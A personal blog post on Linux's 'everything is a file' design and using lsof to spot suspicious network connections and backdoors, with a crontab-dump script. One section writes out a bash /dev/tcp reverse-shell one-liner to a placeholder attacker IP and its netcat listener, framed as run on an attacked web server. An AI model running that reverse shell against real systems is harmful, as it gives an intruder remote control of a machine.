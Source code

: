 +++
title = 'Quick Tech Tip: lsof'
date = 2025-04-21T16:16:41-05:00
draft = false
tags = ["Gems"]
categories = ["CyberSecurity", "QTT"]
+++

So here is a newsflash for all non-Linux people:

# EVERYTHING IN LINUX IS A FILE. LITERALLY EVERYTHING

## Microphones

Your devices like your camera and microphone are mounted at /dev. The ulility "arecord" from the alsa-utils uses this little trick to allow you to do stuff like open the microphone file and forward the data to other command line tools like mpv:

```
arecord -f cd - | mpv -
```

## Cameras
The same can be done with your camera, except it's ffmpeg that relies on the camera being a file:

```
ffmpeg -f v4l2 -i /dev/video0 -f mpegts - | mpv -
```

## FIFO Files

There are some files that act as queues for other programs to pick up data from other programs. They are called [FIFO or Pipe-Files](https://en.wikipedia.org/wiki/Named_pipe).  


## Data Production Files

There are devices that have specific functions like `zero`, `null`, and `random` that produce a specific data like zeros, nothing, or gobbledegook. 

## And so many more

Seriously... everything is a file in Linux and you can do all sorts of crazy stuff once you realize that all tools that work with the UNIX philosophy are supposed to be able to pipe data from one file to the next. But the most interesting of these is the network files.

# Networking files

One thing that only really hackers and Linux devs seem to be aware of is that the mechanism that Linux uses for setting up network connections (sockets) is through creating a socket file attached to the /dev/tcp directory. 

The following command is a standard shell forwarding command. Typically, you would use an unprivileged RCE (Like with a web shell) to run the following command on the web server you're attacking:

```
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

The above command spawns a bash shell and gives it to another machine at port 1337. The hacker will point that to their IP Address and make sure that there is a tool called netcat listening for it:


```
nc -nvlp 1337
```

# LSOF

So now that you know that everything in Linux is a file, you can appreciate the tool [LSOF, or "list open file"](https://www.man7.org/linux/man-pages/man8/lsof.8.html).

You should read this man page, because lsof can find all sorts of stuff. It can tell you which files are being used by which programs, it can tell you who is running what... but my favorite use of lsof is seeing what processes are talking to what servers:

```
sudo lsof -i
```

Run the command as sudo because you'll be able to see way more than the standard user. I typically use this instead of netstat or ps because it's far more human readable and detailed. It's like the command line equivalent of the game, Clue. 

"It was user A, in /usr/bin, with a tcp socket".

# Something we learned about lsof in XFR

There is a command called "who" or "w", that's designed to tell you who is logged into the machine you're on at the moment that you run it. 

We were using a zero-trust solution for logging into a certain box called Teleport, and we sometimes wanted to see who was ssh'ed in. We could have opened the GUI page for it and look at the audit logs, but my boss and I are Linux neckbeards, so we wanted to just stay on the box all day. 

The problem was that when you use "who", it didn't work. The reason comes down to how "who" checks in on the users. It was missing the mechanism that teleport was using, either because it came in through a seperate namespace, or PAM thing, or whatever. It just didn't show up for "who".

But it TOTALLY showed up for lsof. Every network connection needed a socket and every socket is a file, so we could run lsof -i and see every user on the box. It was glorious.

We also knew what each user was supposed to be running, so this method helped us see users doing shady network things (Like my weird sshuttle tomfoolery) very easily.

It was also really good for finding backdoors. Chances are if there was a backdoor in your server, lsof would tell you a user was connecting to a server / service that you didn't recognize.

side note: Another way to look for backdoors is running a script like this to check all the users' crontabs:

```
#!/bin/bash

# Output file for crontab dumps
output_file="all_crontabs.txt"

# Clear the output file if it exists
> "$output_file"

# Get a list of all users
users=$(cut -f1 -d: /etc/passwd)

# Loop through each user
for user in $users; do
    # Get the user's crontab
    crontab_output=$(crontab -u "$user" -l 2>/dev/null)

    # Check if the user has a crontab
    if [ $? -eq 0 ]; then
        echo "Crontab for user: $user" >> "$output_file"
        echo "$crontab_output" >> "$output_file"
        echo "------------------------" >> "$output_file"
    fi
done

echo "All crontabs have been dumped to $output_file."
```

# Fun Story:

When I was an apprentice at X-Force Red, one of the Linux machines wasn't locked properly, so my boss decided to teach us a lesson and installed 3 back doors. 

1. A unix socket bind shell.

2. A crontab back door.

3. cat'ted his ssh pub key into the authorized key file. 

At the time, I was a noob, so I wasn't sure how to find them... so I cheated and just took the infected machine offline. XD. That said, lsof would have found 2 of them. The third would have been caught by using a host-based IDS or even just an entr command.

# So What?

I admit, this tech tip was a bit more scattered than the others, but remember the following:

1. Everything in Linux is a file. *[Insert Annie meme here](https://www.youtube.com/watch?v=A_iAE2JIyEE)*

2. Every open file can be seen by lsof.

3. Network connections that escape other tools don't escape lsof.

4. Look for backdoors with lsof, looking at crontabs, and check your authorized keys files for ssh every once in a while. 
